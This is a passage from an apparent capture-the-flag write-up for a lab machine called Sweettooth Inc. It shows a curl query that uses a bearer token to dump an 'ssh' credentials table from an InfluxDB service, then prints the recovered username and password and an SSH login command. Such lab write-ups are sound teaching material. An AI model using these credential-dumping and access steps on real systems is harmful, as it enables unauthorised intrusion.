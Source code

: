 Interesting! There's a measurement called **ssh**. Let's dump out the data inside:

```
curl -G -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjczODgzNzMwfQ.pqWNywYIVjYoPHbEmcapT_PsVR8mll00rYWCAV_xQrY' 'http://10.10.179.212:8086/query?pretty=true' --data-urlencode "db=creds" --data-urlencode "q=select * from ssh" 
```

![screenshot9](../assets/images/sweettooth_inc/screenshot9.png)

The result reveals a set of SSH credentials!

> uzJk6Ry98d8C : 7788764472

The username found in the database is: **uzJk6Ry98d8C**

---

### [ user.txt ]

With that, we can log into the SSH server running on port 2222:

```
ssh -p 2222 uzJk6Ry98d8C@10.10.179.212
```

![screenshot10](../assets/images/sweettooth_inc/screenshot10.png)
